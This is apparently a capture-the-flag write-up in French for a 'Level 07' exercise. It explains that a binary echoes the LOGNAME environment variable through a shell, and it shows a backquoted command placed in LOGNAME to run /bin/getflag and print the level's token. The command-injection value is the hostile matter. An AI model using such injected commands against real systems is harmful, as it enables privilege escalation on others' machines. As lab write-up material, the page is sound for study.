

# Level 07

A notre connection un binaire est présent `level07`, on prend vite l'habitude de décompiler tous les binaires fournis.

En décompilant le binaire, on s'aperçois qu'il récupère dans l'environment la variable `LOGNAME` et la print en executant la commande `echo`.



Comme d'habitude nous pouvons executé une commande et afficher son résultat avec echo en utilisant des `backquote`.

Comme il récupère `LOGNAME` il nous suffit de faire passer la commande que nous voulons executer dans la variable d'env `LOGNAME`.

```shell
~ export LOGNAME="\`/bin/getflag\`"
~ ./level07 > /tmp/flag
~ cat /tmp/flag
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

